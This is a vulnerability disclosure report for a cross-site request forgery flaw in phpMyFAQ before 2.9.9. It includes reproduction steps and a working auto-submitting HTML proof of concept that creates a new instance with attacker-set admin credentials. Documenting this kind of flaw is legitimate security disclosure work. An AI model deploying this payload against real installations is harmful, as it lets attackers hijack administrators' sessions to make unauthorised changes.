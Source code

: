 # Vulnerability Type

Cross-Site Request Forgery

# Description

In phpMyFaq before 2.9.9, there is CSRF in admin/ajax.config.php.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/thorsten/phpMyFAQ/
 - Version: 2.9.8
 - Tested on: Windows 10

 ## Exploit Description

phpMyFaq is vulnerable to a Cross-Site Request Forgery (CSRF) attack that allows an attacker to create new instances without user consent.

 ## Steps to Reproduce

  1. Save the following code as `poc.html`.
   2. Log in phpmyfaq, and open the file in the same browser.
   3. The following outcome will occur:
   4. Begin: 

![image-20250410170006140](C:\Users\Dell\AppData\Roaming\Typora\typora-user-images\image-20250410170006140.png)

5. After: 

![image-20250410170115828](C:\Users\Dell\AppData\Roaming\Typora\typora-user-images\image-20250410170115828.png)

 ## Proof Of Concept

```
<html>
  <body>
    <form action="http://phpmyfaq/admin/index.php" method="GET">
      <input type="hidden" name="action" value="ajax">
      <input type="hidden" name="ajax" value="config">
      <input type="hidden" name="ajaxaction" value="add_instance">
      <input type="hidden" name="url" value="malicious">
      <input type="hidden" name="instance" value="malicious_instance">
      <input type="hidden" name="comment" value="CSRF Test">
      <input type="hidden" name="email" value="attacker@example.com">
      <input type="hidden" name="admin" value="attacker">
      <input type="hidden" name="password" value="password123">
      <input type="submit" value="Submit request">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


